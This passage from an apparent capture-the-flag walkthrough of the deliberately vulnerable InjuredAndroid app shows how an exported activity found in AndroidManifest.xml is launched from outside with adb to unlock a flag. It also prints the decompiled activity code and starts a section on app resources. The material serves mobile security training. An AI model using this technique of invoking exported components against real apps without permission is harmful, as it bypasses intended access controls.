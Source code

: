 Activities in android are defined in a file called _AndroidManifest.xml_ .

```xml
<activity android:name="b3nac.injuredandroid.b25lActivity" android:exported="true"/>
```

As you see above, the activity **b3nac.injuredandroid.b25lActivity** can be invoked by external application because **android:exported** attribute is set to true.

For exploitation of the above issue we will use adb. First we use adb to list the installed packages in the device and grep the application of our interest using Linux grep utility.

```bash
vx@archie:~$ adb shell pm list packages | grep injuredandroid
package:b3nac.injuredandroid
```

**What happens when invoke b25lActivity class activity?**

When b25lActivity activity is invoked by an external program, it sets the flag2 color to green in the FlagsOverview activity.

```java
/* loaded from: classes.dex */
public final class b25lActivity extends ActivityC0453c {
    /* access modifiers changed from: protected */
    @Override // androidx.appcompat.app.ActivityC0453c, androidx.fragment.app.ActivityC0797d, androidx.activity.ComponentActivity, androidx.core.app.ActivityC0714e, android.app.Activity
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        setContentView(R.layout.activity_b25l);
        ApplicationC1492j.f4506j.m4062a(this);
        new FlagsOverview().m4082M(true);
        new ApplicationC1492j().m4065b(this, "flagTwoButtonColor", true);
    }
}
```

Invoke the activity b25lActivity using adb. Other method of invoking exported activities is by creating an android application thats starts the activity of the target`s activity.

```bash
vx@archie:~$ adb shell am start  -n b3nac.injuredandroid/.b25lActivity
Starting: Intent { cmp=b3nac.injuredandroid/.b25lActivity }
```

when the activity two is started successfully by an external application, we are rewarded with a flag.

![Flag two](post/androidsec/flag2.png)

## FLAG THREE - RESOURCES

**Goal: Understanding how an application references Resources.**

**what are resources?**

Resources are used for anything from defining colors, images, layouts, menus and string values. Everything defined here is referenced in the application`s code.
